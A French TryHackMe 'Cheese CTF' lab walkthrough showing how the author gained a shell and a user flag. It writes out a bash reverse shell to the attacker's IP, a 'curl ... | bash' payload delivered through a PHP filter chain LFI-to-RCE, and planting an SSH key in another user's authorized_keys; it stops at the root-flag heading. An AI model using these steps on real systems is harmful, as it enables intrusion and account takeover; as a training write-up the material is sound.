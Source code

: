 ```yaml
---
title: "TryHackMe Room Cheesectfv10"
seoTitle: "Cheesectfv10: Explore the TryHackMe Challenge"
seoDescription: "Learn how to gain shell access using reverse shells and PHP filter chains in the TryHackMe Cheese CTF Room"
datePublished: Tue May 06 2025 16:06:14 GMT+0000 (Coordinated Universal Time)
cuid: cmacpbxs0000109ikes4r0u3m
slug: tryhackme-room-cheesectfv10
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1746543221556/353365c1-1112-43c2-973d-890a1e22c750.png
tags: shell, cybersecurity-1, tryhackme, tryhackme-walkthrough, cheesectfv10

---
```


Lien de la room: [TryHackMe | Chese CTF](https://tryhackme.com/room/cheesectfv10)

# Énumération

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549859868/eeba2534-e13f-4180-87dc-15d04525f83a.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549887341/b953e0e6-86f7-4548-9f25-46e2840b248b.png align="center")

# Obtenir l’accès shell

## Avec le paramètre cmd

1. Créer un fichier `shell.sh` pour mon script de reverse shell. On veut donc initier la connexion depuis la machine cible.
    

Remplacer 10.10.102.158 par l’adresse IP de votre machine.

```bash
cat shell.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.102.158/4444 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544143626/615e08b3-a3e5-4eaa-91cc-19bea55574bf.png align="center")

2. Démarrer le listener netcat sur la machine principale pour écouter les connexions entrantes sur le port 4444
    

```bash
nc -lvnp 4444
```

3. Démarrer un serveur HTTP qui va contenir le fichier `shell.sh`. Le fichier doit être dans le le répertoire courant où vous exécutez la commande.
    

```bash
python -m http.server 8000
```

4. Utiliser l’outil [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator) pour générer la chaîne de filtres PHP
    

```bash
python3 attack.py --chain '<?php system($_GET["cmd"]); ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544061591/53a75b57-8673-40b2-855d-4f3f19525946.png align="center")

Ici on utilise `'<?php system($_GET["cmd"]); ?>'` car on veut exécuter des commandes sur le serveur cible via le paramètre `cmd` dans l’URL. On veut exploiter une vulnérabilité de type Local File Inclusion LFI afin d’exécuter des commandes arbitraires sur la cible.

5. Modifier l’URL vulnérable pour y ajouter `la chaîne de filtres PHP générée` et le paramètre `cmd`.
    

URL de base: <mark>http://10.10.162.24/secret-script.php?file=php://filter/resource=users.html</mark>

Début de la chaîne de filtre PHP : <mark>php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode</mark>

Fin de la chaîne de filtre PHP: <mark>UTF8.UTF7|convert.base64-decode/resource=php://temp</mark>

On rajoute donc le paramètre <mark>&amp;cmd=curl http://10.10.102.158:8000/shell.sh | bash</mark> à la fin de la chaîne de filtre PHP et on obtient ainsi le reverse shell.

* `curl http://10.10.102.158:8000/revshell.sh`: utilise l’outil curl pour télécharger le fichier shell.sh depuis le serveur HTTP sur le port 80
    
* `| bash`: redirige la sortie de la commande curl vers l’interpréteur de commandes bash, pour exécuter le script.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746547286658/cabf2748-9b25-4180-8215-00b55abacc29.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746545277448/eb5f10ea-c90f-4b52-865c-e53d93920002.png align="center")

## Avec curl

On peut aussi spécifier directement la commande curl dans le payload lors de la génération de la chaîne de filtres PHP. C’est une alternative pour exécuter directement la commande curl sur le serveur, sans avoir à passer de paramètres supplémentaires à l’URL.

```bash
python3 attack.py --chain '<?= `curl 10.10.102.158:8000/shell.sh | bash` ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746548656865/269b63b9-85e4-44f9-9f18-439422d48219.png align="center")

Ce payload utilise la syntaxe courte `<?= ?>` pour exécuter la commande `curl` qui télécharge et exécute le script `shell.sh` depuis le serveur HTTP.

Une fois la chaîne de filtres générée, on peut l’intégrer dans l’URL et obtenir l’accès sur la machine en reverse shell.

# Flag user.txt

On veut lire le contenu du fichier user.txt

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746637426433/df5bbc2e-1837-4ed3-84ee-beb3dba45cb0.png align="center")

Il faut donc trouver un moyen de pouvoir lire le contenu du fichier `user.txt`. Seul le propriétaire `comte` a le droit de lire et écrire dans le fichier. Vu qu’on est connecté à `www-data`, on a aucun droit.

On essaiera de vérifier si `www-data` n’a pas accès à d’autres fichiers ou répertoires.

```bash
find /home/comte -type f -readable -writable
```

Cette commande permet de lister les fichiers dans le répertoire `/home/comte` et les sous-répertoires, que l’utilisateur `www-data` peut lire (-readable) et écrire (-writable).

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746640001975/81188dc6-acc5-4a33-b148-cd4c365e96e2.png align="center")

On peut donc voir que le fichier `authorized_keys` dans le répertoire `/.ssh` peut être lisible et modifiable par `www-data`.

Ce fichier est composant du mécanisme d’authentification par clé publiques de SSH. Il contient une liste de clés publiques SSH appartenant aux utilisateurs autorisés à se connecter à un compte spécifique. Il fonctionne avec une clé privée, qui est sur la machine de l’utilisateur qui se connecte.

Voici un schéma qui illustre le fonctionnement de la connection SSH par clé publiques.

```mermaid
%%{init: {'flowchart': {'useMaxWidth': true, 'nodeSpacing': 50}}}%%
flowchart TB
    A[Fichier authorized_keys modifiable] --> B[Paire de clés SSH générée]
    B --> C[Clé privée conservée en local]
    B --> D[Clé publique exportée]
    D --> E[Injection de la clé publique dans /home/comte/.ssh/authorized_keys]
    E --> F[SSH-server lit authorized_keys]
    F --> G[Client SSH propose la clé privée]
    G --> H{Correspondance clé privée ↔ clé publique ?}
    H -- Oui --> I[Connexion réussie en tant que comte]
    I --> J[Lecture de user.txt, obtention du flag]
    H -- Non --> K[Échec d’authentification]

```

À noter que dans le cas d’une authentification par clé SSH, on a pas besoin du mot de passe de l’utilisateur car SSH utilise la correspondance entre la clé privée et la clé publique placée dans le fichier `authorized_keys` de `comte`.

Sur la machine principale, on génère une paire de clé avec la commande `ssh-keygen -t rsa`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746641847543/328ec365-afe3-45b9-9efd-8ee996d561b7.png align="center")

On obtient une clé privée (key\_rsa) et la clé publique associée (key\_rsa.pub).

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746643650075/beb7c51c-a5b8-4a65-ba70-dbcf34bbc76f.png align="center")

Il faut ensuite copier le contenu de la clé publique dans le fichier `authorised_keys` de la machine cible afin dese connecter au compte `comte` depuis la machine principale via SSH.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642068184/5ad91320-1162-41c2-a33a-731dffbb60a5.png align="center")

Sur la machine principale sur laquelle la paire de clés a été générée, lancer la connexion ssh en utilisant la clé privée.

```bash
ssh -i key_rsa comte@10.10.46.126
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642211249/e31cf5fa-7c8a-4ce6-b327-087961a17ed0.png align="center")

On a arrive donc à se connecter au compte `comte` et on obtient le flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642243905/677b07a0-477f-4c2a-9aa1-c37b1556f7d7.png align="center")

# Flag root.txt